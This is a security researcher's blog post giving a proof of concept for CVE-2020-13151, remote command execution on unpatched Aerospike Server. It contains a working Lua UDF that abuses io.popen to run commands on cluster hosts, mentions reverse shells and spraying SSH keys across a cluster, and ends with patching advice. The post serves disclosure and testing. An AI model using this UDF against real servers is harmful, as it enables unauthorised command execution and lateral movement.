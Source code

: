 ```yaml
---
layout: post
title:  "CVE-2020-13151 POC: Aerospike Server Host Command Execution"
toc: true
date:   2020-08-01
categories: network-pentest
---
```


# An Aside

The Aerospike team was really great to work with on this CVE. They were very responsive and quickly developed a patch and worked it into production. 

# Motivation 

I recently disclosed CVE-2020-13151 to Aerospike after finding that I could execute commands against the underlying aerospike database hosts during an engagement. If you find an unpatched version of Aerospike server during testing, there may be a quick shell available. Depending on what else the hosts are used for this can be a good pivot point in the network.


# Prerequisites

- An unpatched (or non-hardened) version of the Aerospike server. 
- Patches came in two stages:
	- Versions 5.0.0.7, 4.9.0.10, 4.8.0.13, 4.7.0.17, 4.6.0.19 and 4.5.3.21 received the ability to disable lua UDFs
	- Versions 5.1.0.3 and beyond blocked the process creation in the UDFs

Authentication is not offered on the community edition making the attack very simple on unpatched versions. I was unable to test this attack on the enterprise edition, so if you find one on an engagement, you'll need to experiment a bit (and probably obtain some credentials).

# Exploiting

**tl;dr**
scripted exploit tool is here: [https://github.com/b4ny4n/CVE-2020-13151](https://github.com/b4ny4n/CVE-2020-13151)

Again, this was only tested on the server community edition as I didn't have access to the enterprise version. A nicety from an attacker point-of-view is that the community edition does not allow for authentication, making this attack very easy.

To show how it works, I'll walk through a manual way to run the attack, though I've created a some tooling around it here [here](https://github.com/b4ny4n/CVE-2020-13151).

This attack is possible due to inusfficient blacklisting of functions in lua UDFs. Aerospike seems to have (sensibly) blocked `os.execute` calls during UDF execution, however the same precautions do not appear to be in place for `io.popen`.

Consider the following UDF, which when registered will allow us to execute and display the results of a command whichever host in the cluster ends up executing the function.  

```lua
function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end
```

Once connected to the cluster (again, no auth in the community edition), we can register our udf:
![](/screens/aero-register-udf.png)

Create a single-record test dataset to operate on:
![](/screens/aero-create-table.png)

And then execute commands on whichever host ended up hosting our record:
![](/screens/aero-execute-cmd.png)

In a large enough cluster an attacker could create a much larger dataset and repeatedly execute the commands against different records which would have the effect of spraying the command around the cluster (which would be fun for dropping ssh keys, for example).


# Try it out 

I've written a tool which injects records into the target cluster and then executes the desired commands.

It can be used to obtain a reverse shell:

![](/screens/aero-revshell.png)

Or just to issue arbitrary commands:

![](/screens/aero-cmdexec.png)

You can grab the tool [here](https://github.com/b4ny4n/CVE-2020-13151) and experiment with it against a local docker setup:

```bash

# start up a single-node aerospike instance
docker run --rm -d --name aerospike -p 3000:3000 -p 3001:3001 -p 3002:3002 -p 3003:3003 aerospike:4.9.0.5

# if you want to issue commands against the server interactively, 
# fire up a client to interact with the server (also dockerized)
# changing the --host IP as necessary
docker run -v `pwd`:/share -ti --name aerospike-aql --rm aerospike/aerospike-tools aql --host 172.17.0.2 --no-config-file
```


# If You're Defending

Patch and firewall off backend servers if you're on the community edition (ideally, they should only respond to the web apps fronting them). If you're on the enterprise version, ensure you have strong authentication and minimize permission and access.
